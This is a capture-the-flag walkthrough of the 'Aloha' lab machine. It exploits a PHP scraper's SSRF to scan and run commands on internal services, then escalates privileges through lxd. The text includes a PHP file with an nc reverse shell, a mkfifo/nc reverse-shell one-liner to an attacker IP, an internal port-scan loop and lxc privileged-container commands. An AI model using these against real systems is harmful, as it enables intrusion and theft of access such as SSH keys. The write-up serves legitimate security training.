

# Aloha

__MACHINE IP__: 10.1.1.60

__DATE__: 05/10/2019

__START TIME__: 8:32 PM


## NMAP


There are lot of ports open. We can see there are imap and pop3 ports so that means we might have to play with email services. But let's start simple, with port `80`

## HTTP

If we visit the IP in browser we'll see a beautifully designed web pages


I didn't see anything unusual in the comment section so I ran `gobuster` on it and found a wordpress blog on `/blog`.


On visiting the blog we can see that there is a post mentioning a page called `/s3cr3tscr4per.php`.



This tell's us about the `/s3cr3tscr4per.php` URL and that there's a person named `alex`. If we open the said page we'll get a so called `website scraper`.


Now noticed that warning in red that reads ` ERROR: URL must contain http schema`. Well if you see anything that says something about having a http schema or something like that the first thing you should check if RFI(remote file inclusion). So I made a file called `evil.php` having

```php
<?php echo shell_exec("nc -e /bin/sh 10.254.0.20 4444") ?>
```

And then started a `python` server and tried to include this file but it didn't worked. Then [@andreas]() told me to look around the website to search for the source of that page. I re-ran the gobuster scan with `-x`(extension) and found `/test.zip`. It had the source for `/s3cr3tscr4per.php`

```php
$ip = '2130706433';
$ip2 = '2147483646';
$gethostname = parse_url($_GET['command'], PHP_URL_HOST);
$hostname = gethostbyname($gethostname);
if (ip2long($hostname) <= $ip2 && $ip <= ip2long($hostname)) {
    die('<b><font color="red">ERROR:</b></color> restricted host');

}
system('curl -s ' . escapeshellcmd($_GET['command']) . ' || echo website not found');
?>
```

We can see it's using `curl` to get the content of the file but the issue is it's using `system` to grab those files but the issue is that it's using `escapeshellcmd` function which is used to prevent arbitary command exec.

I googled about how to exploit that and found [exploit-bypass-php-escapeshellarg-escapeshellcmd](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

but that didn't seemed the way. I then talked with the author and he said that I need to use taht curl command for internal scanning of the system.

Now if we focus on the code the IP `127.0.0.1` is restricted host but we can use `0.0.0.0` to refer to localhost.


This means it works but now we'll need to do port scan for that I made a script:

```bash
for x in {1..65535};
    do cmd=$(curl -so /dev/null -X POST "http://10.1.1.60/s3cr3tscr4per.php?command=http://0.0.0.0:${x}" -w '%{size_download}')
    if [ $cmd -gt 385 ]; then
        echo "Open port: $x"
    fi
done
```

This way I found out that 3 port were opened


We know that 3306 is mysql so first I checked the 6060 and it was some kind of console service


I tried executing command like

```bash
➜ http -b http://10.1.1.60/s3cr3tscr4per.php\?command\="http://0.0.0.0:6060/?cmd=ls"
```

And it did work.


But when I did something like `ls -la` or `ls /home` I got error so @theart42 suggested to double encode the command.


So I double encoded the following string and passed it to cmd to get the reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.254.0.10 4444 >/tmp/f
```


In `/home/alex/.dev` I found the SSH keys


## privilege escalation

Downloaded the enumeration script and ran it to see if I can find anything interesting

Found lxd installed


So I used the exploited it by running following commands

```bash
lxc init f68aac3ef6f1 privesc -c security.privileged=true
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc sh
```


